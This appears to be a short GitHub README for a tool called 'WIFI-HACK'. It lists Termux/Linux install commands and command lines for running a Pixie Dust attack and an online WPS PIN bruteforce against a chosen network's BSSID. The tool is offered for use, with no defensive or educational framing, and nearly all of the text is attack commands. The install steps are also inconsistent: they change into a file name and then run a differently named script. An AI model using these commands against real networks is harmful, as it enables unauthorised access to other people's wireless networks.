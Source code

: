 # WIFI-HACK


# Installation :

 apt update && apt upgrade
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw
 git clone https://github.com/Mahfuz-THBD/Wifi_Hack
 cd WIFI-HC.PY
 chmod +x WIFI-HC.PY
 sudo python birihack.py --help


# Example : sudo python birihack.py -i wlan0 -K

# Note:
First turn off your Wifi.

Show avaliable networks and start Pixie Dust attack on a specified network.
sudo python birihack.py -i wlan0 -K
Start Pixie Dust attack on a specified BSSID: sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K
Launch online WPS bruteforce with the specified first half of the PIN:
sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
Troubleshooting
"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
